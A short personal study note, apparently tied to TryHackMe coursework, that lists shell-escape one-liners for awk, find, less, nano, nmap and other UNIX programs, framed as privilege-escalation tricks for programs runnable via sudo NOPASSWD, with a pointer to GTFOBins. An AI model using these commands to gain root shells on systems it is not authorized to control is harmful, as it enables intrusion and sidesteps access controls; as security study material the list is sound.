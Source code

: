 # Shell Escapes

* **author**:: Nathan Acks
* **date**:: 2021-10-31

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via sudo.

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - see "Set a Shell in ViM"

GTFOBins is your one-stop resource for shell escape information.

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)
* [Set a Shell in ViM](set-a-shell-in-vim.md)
